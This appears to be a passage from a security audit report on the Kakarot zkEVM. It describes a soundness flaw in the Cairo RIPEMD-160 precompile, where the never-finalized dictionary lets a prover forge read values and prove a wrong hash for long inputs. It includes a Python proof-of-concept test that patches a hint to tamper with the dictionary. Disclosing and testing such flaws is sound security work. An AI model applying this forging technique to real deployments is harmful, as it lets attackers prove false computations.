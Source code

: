 Because the old dictionary is never finalized, it is possible to insert incorrect values for read operations on the old dictionary, which allows proving an incorrect output for any input of `size > 55` (56 with the fix to our separate vulnerability on this value).

Read operations on the old dictionary are performed in [`ripemd160::absorb_data`](https://github.com/kkrt-labs/kakarot/blob/7411a5520e8a00be6f5243a50c160e66ad285563/src/kakarot/precompiles/ripemd160.cairo#L148):

```cairo
File: ripemd160.cairo
148: func absorb_data{range_check_ptr, bitwise_ptr: BitwiseBuiltin*, dict_ptr: DictAccess*}(
149:     data: felt*, len: felt, index: felt
150: ) {
151:     alloc_locals;
152:     if (index - len == 0) {
153:         return ();
154:     }
155: 
156:     let (index_4, _) = unsigned_div_rem(index, 4);
157:     let (index_and_3) = uint32_and(index, 3);
158:     let (factor) = uint32_mul(8, index_and_3);
159:     let (factor) = pow2(factor);
160:     let (tmp) = uint32_mul([data], factor);
161:     let (old_val) = dict_read{dict_ptr=dict_ptr}(index_4);
162:     let (val) = uint32_xor(old_val, tmp);
163:     dict_write{dict_ptr=dict_ptr}(index_4, val);
164: 
165:     absorb_data{dict_ptr=dict_ptr}(data + 1, len, index + 1);
166:     return ();
167: }
```

### Proof of Concept

The below test case can be added to `test_ripemd160.py` to demonstrate the vulnerability:

```python
async def test_ripemd160_output_can_be_forged(self, cairo_program, cairo_run):
	msg_bytes = bytes([0x00] * 57)
	with (
		patch_hint(
			cairo_program,
			"vm_enter_scope()",
			"try:\n"
			"    dict_tracker = __dict_manager.get_tracker(ids.dict_ptr)\n"
			"    dict_tracker.data[ids.index_4] = 1\n"
			"except Exception: pass\n"
			"vm_enter_scope()"
		)
	):
		precompile_hash = cairo_run("test__ripemd160", msg=list(msg_bytes))

		# Hash with RIPEMD-160 to compare with precompile result
		ripemd160_crypto = RIPEMD160.new()
		ripemd160_crypto.update(msg_bytes)
		expected_hash = ripemd160_crypto.hexdigest()

		assert expected_hash.rjust(64, "0") != bytes(precompile_hash).hex()
```
